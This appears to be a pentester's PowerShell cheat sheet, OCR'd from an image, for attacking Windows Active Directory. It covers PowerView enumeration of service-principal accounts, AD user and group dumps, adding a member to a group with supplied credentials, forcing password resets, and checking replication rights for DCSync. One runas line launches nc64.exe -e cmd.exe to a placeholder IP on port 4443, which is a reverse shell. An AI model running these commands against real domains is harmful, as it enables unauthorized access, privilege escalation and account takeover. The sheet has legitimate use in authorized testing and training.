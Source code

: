 ```powershell
PS> Enter-PSSession -ComputerName TargetComputer -Credential hoge\TestUser -ConfigurationName TestUserSession
Remote Accessed PS> klist
#### ok
##### powerview
##### #Remote Accessed PS> import-module .\PowerView.ps1
##### #Remote Accessed PS> get-domainuser -spn | select samaccountname
# Web Access
PS> iwr -UseDefaultCredentials http://TestWeb
# Memo
PS> if (!([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole("Administrators")) { Start-Process powershell.exe "-File `"$PSCommandPath`"" -Verb RunAs; exit }
```
## runas
```powershell
PS> runas /netonly /user:HOGE.com\TestUser cmd.exe
PS> runas /netonly /user:HOGE.com\TestUser "c:\tools\nc64.exe -e cmd.exe XXX.XXX.XXX.XXX 4443"
```

## Module: ActiveDirectory
```powershell
PS> Get-Module
PS> Import-Module ActiveDirectory
PS> Get-Module
# Domain
PS> Get-ADDomain
# User
PS> Get-ADUser -Identity TestUser -Properties *
PS> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
PS> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
PS> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# Group
PS> Get-ADGroup -Filter * | select name
PS> Get-ADGroup -Identity "Backup Operators"
PS> Get-ADGroup -Identity "Enterprise Admins" -Properties * | Out-String | Select-String sid
PS> Get-ADGroup -Identity "Test Group" -Properties * | Select -ExpandProperty Members
PS> Get-ADGroupMember -Identity "Backup Operators"
PS> $SecPassword = ConvertTo-SecureString 'TestPassword' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('HOGE\TestUser', $SecPassword)
PS> Add-DomainGroupMember -Identity 'Test Group' -Members 'TargetUser' -Credential $Cred -Verbose
# check object
PS> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1163"
PS> Get-ObjectAcl "DC=hoge,DC=com" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier,ObjectAceType | fl
# Change Password
PS> $Password = ConvertTo-SecureString "NewTestPassword" -AsPlainText -Force
PS> Set-ADAccountPassword -Identity "TargetUser" -Reset -NewPassword $Password
# Active Directory Object
PS> $ChangeDate = New-Object DateTime(2024, 01, 24, 12, 00, 00)
PS> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server HOGE.com
# Trust
PS> Get-ADTrust -Filter *
# ACE
PS> $guid= "00299570-246d-11d0-a768-00aa006e0529"
PS> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
PS> foreach($line in [System.IO.File]::ReadLines("C:\Users\TestUser\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'HOGE\\TargetUser'}}
```